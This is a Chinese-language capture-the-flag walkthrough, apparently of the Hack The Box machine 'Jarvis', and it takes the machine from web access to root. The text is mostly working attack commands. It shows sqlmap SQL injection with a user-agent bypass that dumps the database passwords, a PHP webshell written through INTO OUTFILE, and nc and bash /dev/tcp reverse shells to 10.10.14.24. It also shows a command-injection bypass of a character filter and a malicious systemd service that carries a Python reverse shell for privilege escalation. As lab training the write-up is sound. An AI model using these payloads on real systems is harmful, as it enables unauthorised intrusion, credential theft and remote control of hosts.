# Jarvis\_143

![image-20200917090838507](assets/Jarvis_143.assets/image-20200917090838507.png)

![image-20200717214657647](assets/Jarvis_143.assets/image-20200717214657647.png)

![image-20200717214536198](assets/Jarvis_143.assets/image-20200717214536198.png)

![image-20200717215821870](assets/Jarvis_143.assets/image-20200717215821870.png)

目录

![image-20200717232409514](assets/Jarvis_143.assets/image-20200717232409514.png)

![image-20200717232514836](assets/Jarvis_143.assets/image-20200717232514836.png)

等都没有发现

在主页rooms下发现了可能存在的注入点

![image-20200717215919758](assets/Jarvis_143.assets/image-20200717215919758.png)

![image-20200717215940132](assets/Jarvis_143.assets/image-20200717215940132.png)

![image-20200717220003423](assets/Jarvis_143.assets/image-20200717220003423.png)

测试注入

```bash
sqlmap -u http://10.10.10.143/room.php?cod=1
```

但是收到了404

尝试页面注入

![image-20200717222441579](assets/Jarvis_143.assets/image-20200717222441579.png)

虽然没有任何回显，但是也没有404,应该是过滤检测了浏览器

尝试使用`--user-agent`参数

```bash
sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla / 5.0（X11; Linux x86_64; rv：60.0 ）Gecko / 20100101 Firefox / 60.0"
```

![image-20200717223443011](assets/Jarvis_143.assets/image-20200717223443011.png)

成功

使用`--passwors`转储密码

```bash
sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla / 5.0（X11; Linux x86_64; rv：60.0 ）Gecko / 20100101 Firefox / 60.0" --password
```

![image-20200717223833147](assets/Jarvis_143.assets/image-20200717223833147.png)

```bash
DBadmin:imissyou
```

登录之前的phpadmin

![image-20200717232637876](assets/Jarvis_143.assets/image-20200717232637876.png)

在sql控制台中写入cmdshell

```bash
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cmd_shell.php"
```

![image-20200718022115866](assets/Jarvis_143.assets/image-20200718022115866.png)

![image-20200718022137394](assets/Jarvis_143.assets/image-20200718022137394.png)

至此获得一个webshell

```bash
http://10.10.10.143/cmd_shell.php?cmd=
```

![image-20200718023554297](assets/Jarvis_143.assets/image-20200718023554297.png)

webshell转shell

```bash
http://10.10.10.143/cmd_shell.php?cmd=nc%20-e%20/bin/sh%2010.10.14.24%201337
```

![image-20200718025816932](assets/Jarvis_143.assets/image-20200718025816932.png)

![image-20200718031257943](assets/Jarvis_143.assets/image-20200718031257943.png)

检查脚本

![image-20200718031422435](assets/Jarvis_143.assets/image-20200718031422435.png)

在脚本其中的一部分发现，可能存在命令注入，

被排除的字符有

```bash
['&', ';', '-', '`', '||', '|']
```

![image-20200718032056988](assets/Jarvis_143.assets/image-20200718032056988.png)

![image-20200718034016888](assets/Jarvis_143.assets/image-20200718034016888.png)

脚本应该是可以进行`ping+系统命令`进行执行，

虽然排除了所有能够附加命令的符号，但是由于ping是可以使用变量的，我们仍然可以对其进行命令注入

例如`ping $(cat ip.txt)`

那么我们就可以使用`ping $(bash)`来直接执行bash

同时利用sudo特性切换用户到pepper

```text
sudo -u pepper ./simpler.py -p
```

但是这样得到的shell并不能正常回显，我们可以在/tmp文件夹下生成一个shell文件，然后在命令注入时执行它。从而获得shell

```bash
echo '#!/bin/bash' > /tmp/evil.sh
echo "bash -i >& /dev/tcp/10.10.14.24/1338 0>&1" >> /tmp/evil.sh
chmod +x /tmp/evil.sh
sudo -u pepper ./simpler.py -p
> $(/tmp/evil.sh)
```

![image-20200718043218194](assets/Jarvis_143.assets/image-20200718043218194.png)

![image-20200718043245340](assets/Jarvis_143.assets/image-20200718043245340.png)

![image-20200718044426579](assets/Jarvis_143.assets/image-20200718044426579.png)

查找suid

```bash
find / -perm -4000 2>/dev/null
```

![image-20200718043750025](assets/Jarvis_143.assets/image-20200718043750025.png)

systemctl已经设置了suid位并将其作为root用户运行，所以我们可以创建自己的服务，该服务包含rshell，一旦启用，我们应该得到我们的root shell。

kali上新建 evil.service

```bash
[Unit]
Description=pwned

[Service]
ExecStart=/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

[Install]
WantedBy=multi-user.target
```

![image-20200718044619201](assets/Jarvis_143.assets/image-20200718044619201.png)

也可以

```bash
[Service]
Type=oneshot
ExecStart=/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

[Install]
WantedBy=multi-user.target
```

然后将这个服务文件上传到用户的文件夹下，注意，上传到tmp目录是不能正常执行的

然后立即启动服务

```bash
systemctl enable /home/pepper/evil.service --now
```

![image-20200718050252812](assets/Jarvis_143.assets/image-20200718050252812.png)

然后即可在监听的4444端口获得root shell

![image-20200718045943885](assets/Jarvis_143.assets/image-20200718045943885.png)

